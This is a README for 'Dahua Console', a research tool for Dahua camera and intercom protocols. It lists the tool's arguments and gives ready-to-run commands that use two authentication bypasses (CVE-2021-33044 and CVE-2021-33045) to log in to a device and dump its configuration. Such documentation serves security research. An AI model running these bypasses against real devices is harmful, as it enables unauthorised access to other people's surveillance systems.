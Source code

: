 # Dahua Console

- Version: Pre-alpha
- Bugs: Indeed
- TODO: Lots of stuff

[Install requirements]
```text
sudo pip3 install -r requirements.txt
```

[Arguments]
```text
  -h, --help            show this help message and exit
  --rhost RHOST         Remote Target Address (IP/FQDN)
  --rport RPORT         Remote Target Port
  --proto {dhip,dvrip,3des,http,https}
                        Protocol [Default: dvrip]
  --relay RELAY         ssh://<username>:<password>@<host>:<port>
  --auth AUTH           Credentials (username:password) [Default: None]
  --ssl                 Use SSL for remote connection
  -d, --debug           JSON traffic
  -dd, --ddebug         hexdump traffic
  --dump {config,service,device,discover,log,test}
                        Dump remote config
  --dump_argv DUMP_ARGV
                        ARGV to --dump
  --test                test w/o login attempt
  --multihost           Connect hosts from "dhConsole.json"
  --save                Save host hash to "dhConsole.json"
  --events              Subscribe to events [Default: False]
  --discover {dhip,dvrip}
                        Discover local devices
  --logon {wsse,loopback,netkeyboard,onvif:plain,onvif:digest,onvif:onvif,plain,ushield,ldap,ad,cms,local,rtsp,basic,old_digest,gui}
                        Logon types
  -f, --force           Bypass stops for dangerous commands
  --calls               Debug internal calls
```
---
[Release]

[Update]
2022-07-10

Added 3des_old logon method for VTH1510CH running V2 software from 2016
- Minor difference in the login packet data
- Do not query device parameters on connect - will reset the connection

Example:

`./Console.py --rhost 192.168.1.x --proto 3des --auth admin:admin  --logon old_3des --dump config`

[Update]

2021-10-07

Details here: https://github.com/mcw0/PoC/blob/master/Dahua%20authentication%20bypass.txt

2021-10-06


[CVE-2021-33044]

Protocol needed: DHIP or HTTP/HTTPS (DHIP do not work with TLS/SSL @TCP/443)
```text
[proto: dhip, normally using tcp/5000]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto dhip --rport 5000

[proto: dhip, usually working with HTTP port as well]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto dhip --rport 80

[proto: http/https]
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto http --rport 80
./Console.py --logon netkeyboard --rhost 192.168.57.20 --proto https --rport 443
```

[CVE-2021-33045]

Protocol needed: DHIP (DHIP do not work with TLS/SSL @TCP/443)
```text
[proto: dhip, normally using tcp/5000]
./Console.py --logon loopback --rhost 192.168.57.20 --proto dhip --rport 5000

[proto: dhip, usually working with HTTP port as well]
./Console.py --logon loopback --rhost 192.168.57.20 --proto dhip --rport 80
```
---

